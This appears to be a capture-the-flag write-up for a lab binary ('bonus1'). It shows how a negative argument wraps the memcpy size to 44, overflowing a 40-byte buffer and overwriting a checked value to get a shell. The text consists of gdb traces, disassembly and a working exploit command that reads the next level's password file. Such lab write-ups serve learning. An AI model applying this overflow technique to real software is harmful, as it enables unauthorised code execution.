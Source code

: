 As we can see in the source.c file, av[1] is converted to an int using atoi (stored in local_14).
Then there is a check : if this value is superior to 10, we exit the program without doing anything. That means av[1] can't be higher than 9.
Then there is a call to memcpy, that will copy av[2] to a buffer (local_3c). But it will only copy local_14 (max size 9) * 4 bytes, so at most 36 bytes. Then local_14 is checked again, this time with 0x574f4c46. If equal, a shell will be run.
So we obviously want this check to be equal, however we can't pass anything bigger than 9. The only vulerable function here is memcpy, but the max copy size will be 9 * 4 = 36 while the buffer size is 40.
What about negative numbers ?

    $ ./bonus1 -1 abc
    Segmentation fault (core dumped)

Obviously, it allocates a negative size to memcpy and it crashes. But we have to keep in mind that this number is multiplied by 4 before being passed to memcpy. So what if we pass a number that will be bigger than INT_MIN when multiplied by 4 ?
Lets take a bigger number than INT_MIN : -2,147,483,652 for instance (divisible by 4).
If we divide it by 4, we get -536,870,913.

Let's try with this number then :

    (gdb) r "-536870913" "AAAA"
    Starting program: /home/user/bonus1/bonus1 "-536870913" "AAAA"
    Breakpoint 1, 0x0804843d in main ()

    (gdb) i r
    eax            0xdfffffff	-536870913  <-- atoi return value
    [...]
    (gdb) c
    Continuing.

    Program received signal SIGSEGV, Segmentation fault.
    0xb7f65ef0 in ?? () from /lib/i386-linux-gnu/libc.so.6
    (gdb) x/x $esp+0x3c
    0xbffff704:	0x63363532
    (gdb) x/s $esp+0x3c
    0xbffff704:	 "256color"

[esp + 0x3c] corresponds to av[1], as seen in this disassembled code :

    0x08048478 <+84>:	cmp    DWORD PTR [esp+0x3c],0x574f4c46

This line corresponds to the check with the big value 0x574f4c46 being compared with av[1].
So we successfully overflowed it. Let's check the size passed to memcpy to get an idea :

    0x08048464 <+64>:	lea    eax,[esp+0x14]           <-- dest address
    0x08048468 <+68>:	mov    DWORD PTR [esp+0x8],ecx  <-- 3rd argument (size)
    0x0804846c <+72>:	mov    DWORD PTR [esp+0x4],edx  <-- 2nd argument (src)
    0x08048470 <+76>:	mov    DWORD PTR [esp],eax      <-- 1st argument (dest)
    0x08048473 <+79>:	call   0x8048320 <memcpy@plt>

We can see that the value of ecx is being moved to [esp+0x8], which is the 3rd argument passed when calling a function, here memcpy. That means this is the size passed to memcpy

    Breakpoint 3, 0x08048473 in main ()
    (gdb) i r
    eax            0xbffff6c4	-1073744188
    ecx            0x7ffffffc	2147483644  <-- size
    [...]

We end up with a buffer of 2,147,483,644. That means memcpy was successfully given a positive number. Why is that ?

The binary representation of -2,147,483,652 is :

    1111 1111 1111 1111 1111 1111 1111 1111 0111 1111 1111 1111 1111 1111 1111 1100

However, esp+0x3c is a DWORD (32bit), so only the 32 least significant bytes are counted.
We get this binary number :

    0111 1111 1111 1111 1111 1111 1111 1100

Which in decimal is 2,147,483,644. But this is a very large size, we only really need to end up with a size of 44, which in binary is 101100.
The 32bit representation would look like this :

    0000 0000 0000 0000 0000 0000 0010 1100

Now, we can reuse the 32 most significant bytes of the previous 64bit result. If we divide the result by 4, we will get the value we need to pass to argv[1].

Our 64bit number would be :

    1111 1111 1111 1111 1111 1111 1111 1111 0000 0000 0000 0000 0000 0000 0010 1100

Which in decimal is -4,294,967,252. Divided by 4, we get -1,073,741,813.

Let's check our buffer size :

    (gdb) r "-1073741813" "acb"
    Starting program: /home/user/bonus1/bonus1 "-1073741813" "acb"

    Breakpoint 1, 0x08048473 in main ()
    (gdb) i r
    eax            0xbffff6f4	-1073744140
    ecx            0x2c	44
    [...]

As we saw previously, av[1] is located at [esp+0x3c] (esp + 60), while the destination address of memcpy is located at [esp+0x14] (esp + 20). We can indeed see here that the buffer has a size of 40, and overflowing it will overvrite av[1]. That means we can craft our payload by padding the first 40 characters, then passing the value that will set av[1] to the correct number :

    bonus1@RainFall:~$ ./bonus1 "-1073741813" $(python -c 'print "A" * 40 + "\x46\x4c\x4f\x57"')
    $ cd ../bonus2
    $ cat .pass
    579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
